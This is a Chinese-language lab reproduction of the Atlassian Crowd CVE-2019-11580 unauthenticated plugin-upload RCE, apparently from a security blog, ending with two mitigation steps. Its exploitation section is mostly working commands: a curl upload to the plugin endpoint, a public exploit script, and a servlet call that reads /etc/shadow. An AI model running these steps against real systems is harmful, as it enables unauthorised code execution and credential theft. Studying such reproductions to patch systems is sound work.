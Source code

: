 ![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090609-05510754-c930-1.jpg)

[申请试用30天](https://my.atlassian.com/products/index)并填写license。进行下一步安装，直到安装完成。

## 漏洞利用

### 未授权访问测试

进行上传一个标准的插件，来自atlassian-bundled-plugins中的applinks-plugin-5.4.12.jar

```
curl --form "file_cdl=@applinks-plugin-5.4.12.jar" http://192.168.18.138:8095/crowd/admin/uploadplugin.action -v
```

成功上传
 [![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090609-05855b76-c930-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20190828090609-05855b76-c930-1.jpg)

### Atlassian Crowd RCE

漏洞利用[脚本](https://github.com/jas502n/CVE-2019-11580)

```
git clone https://github.com/jas502n/CVE-2019-11580
cd CVE-2019-11580/
python CVE-2019-11580.py http://192.168.18.138:8095
curl http://192.168.18.138:8095/crowd/plugins/servlet/exp?cmd=cat%20/etc/shadow
```

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20190828090610-05a6bb18-c930-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20190828090610-05a6bb18-c930-1.jpg)

## 漏洞修复

1. 设置访问/crowd/admin/uploadplugin.action的源ip。
2. 升级最新版本(3.5.0以上)

